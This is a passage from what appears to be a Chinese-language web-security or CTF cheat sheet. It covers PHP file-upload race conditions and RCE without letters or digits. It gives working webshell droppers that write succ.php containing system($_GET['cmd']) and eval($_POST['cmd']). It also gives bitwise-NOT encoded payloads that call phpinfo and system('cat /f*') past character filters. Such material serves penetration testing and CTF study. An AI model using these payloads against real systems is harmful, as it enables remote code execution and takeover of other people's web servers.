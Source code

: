 







## 11.2 条件竞争

上传的文件有时会先被放到一个目录中，然后再对这个目录进行扫描检查，删除不符合要求的文件。

这种情况下可以通过多线程请求去在上传的文件被删除前访问文件，尤其是对于 php 直接访问等于执行，可以在安全目录下生成一个后门文件，实现 RCE

初次上传的脚本如下，可以在指定位置生成一个`succ.php`文件

```php
<?php file_put_contents('succ.php', '<?php system($_GET["cmd"]); ?>'); ?>
<?php file_put_contents('succ.php', '<?php @eval($_POST['cmd']);?>'); ?>
```


---
# 十二. 无字母/数字RCE

PHP由于弱类型这个特性，`true`的值为`1`，故`true+true==2`，也就是 `(’>’>’<’)+(’>’>’<’)==2`
```php
<?php
echo (">">"<")."\n";     //1
echo('>'>'<')+('>'>'<'); //2
?>  
```


## 12.1 取反绕过
**只适用于PHP7**
对想要传入的参数，先进行URL编码再取反
例如传入构造一个phpinfo();
```php
<?php
echo urlencode(~'phpinfo'); //%8F%97%8F%96%91%99%90
?>
GET:
URL/?shell=(~%8F%97%8F%96%91%99%90)();

```

或者如下面这种情况没有过滤掉`()`时:
```php
<?php
$a="system";
$b = "cat /f*";

echo urlencode(~$a)."\n"; 
echo urlencode(~$b);
// (~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0)
?>

GET：
URL/shell=(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0)
```
